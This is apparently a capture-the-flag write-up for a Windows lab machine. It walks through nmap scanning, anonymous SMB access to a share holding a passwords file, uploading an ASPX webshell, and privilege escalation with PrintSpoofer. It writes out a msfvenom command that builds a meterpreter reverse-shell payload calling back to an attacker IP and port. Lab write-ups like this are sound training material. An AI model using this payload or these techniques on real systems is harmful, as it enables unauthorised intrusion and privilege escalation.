 ## Overview 
This is a windows machine. You wil learn basic metasploit and basic pentest windows. 

## Write up 

## Enumeration 
Run `nmap` to scan the services. This server run web with 2 port (80, 49663) and smb share (445) 
  
![image](https://user-images.githubusercontent.com/22276823/147270203-dd3ed196-05b8-418e-87a5-b6125344c755.png) 
 
Scan smb vuln 
 
![image](https://user-images.githubusercontent.com/22276823/147270599-0585d73d-b8e5-4598-963d-5d2ea2a6df67.png) 

Connect to smb share with anonymous account 
 
![image](https://user-images.githubusercontent.com/22276823/147270831-ccae3482-8ecf-450a-aace-07b0a3d17c7e.png) 
 
This server share folder `nt4wrksv`. Connect this and get `passwords.txt` file 

![image](https://user-images.githubusercontent.com/22276823/147271108-965e4cf6-13d5-4c4d-9786-74710e8e315f.png) 

Check this file and i got 2 user, pass 

![image](https://user-images.githubusercontent.com/22276823/147271398-dc1a60bf-5204-4dd4-bcc2-6b2925fca042.png) 

Check permission on server. I known i can upload with anonymous account 

![image](https://user-images.githubusercontent.com/22276823/147271520-b2c2a934-ab09-490d-9be1-25a7a1c72d6f.png) 

## Exploit 

Because this server run on windows. I have create the reverse shell aspx. But it's seem like this server just print source code without run it. 
  
![image](https://user-images.githubusercontent.com/22276823/147272100-2d1ff816-a376-488a-a17c-3831a0375f0c.png) 

Let's try with webshell and get user flag

![image](https://user-images.githubusercontent.com/22276823/147272435-6507deb5-a4dd-41e2-83c6-cdcd4adb165f.png) 
 
To get reverse shell, i used metasploit to create reverse shell 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.9.3.188 lport=4444 -f aspx -o shell.aspx 
```  
 Upload to server and get reverse shell  
  
![image](https://user-images.githubusercontent.com/22276823/147275061-af1fc217-56f6-4d9f-be29-d8f6300ed507.png)  

![image](https://user-images.githubusercontent.com/22276823/147272992-34b30903-44ae-4e13-8848-f593952350d7.png)  
 
![image](https://user-images.githubusercontent.com/22276823/147273229-1da03fdc-dccc-42fc-8e41-e67de694b6ed.png) 
 
Check privileges 
 
![image](https://user-images.githubusercontent.com/22276823/147273332-b533de06-f26f-436d-9641-93987775ffb6.png) 
 
After searching google. I used [Juicy Potato](https://github.com/ohpe/juicy-potato) but it doesn't work. Continue research, I found another way. This way exploit [PrintSpooler](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) service. Download execution file and put to server 

![image](https://user-images.githubusercontent.com/22276823/147274385-f5fb719c-4212-436e-a615-27e412b6de8e.png) 

![image](https://user-images.githubusercontent.com/22276823/147274580-47c6182d-c94e-4084-bbd3-96bdf9a3f40b.png) 

Run executable file and get root flag

![image](https://user-images.githubusercontent.com/22276823/147274689-f92b73d2-602b-4490-b0b0-6ccad6460ea8.png) 

![image](https://user-images.githubusercontent.com/22276823/147274768-87d5c338-f702-4f34-abd0-62792c594927.png) 

**Resources** 
1. https://github.com/itm4n/PrintSpoofer  
2. https://github.com/ohpe/juicy-potato  
3. https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505  
4. https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/  









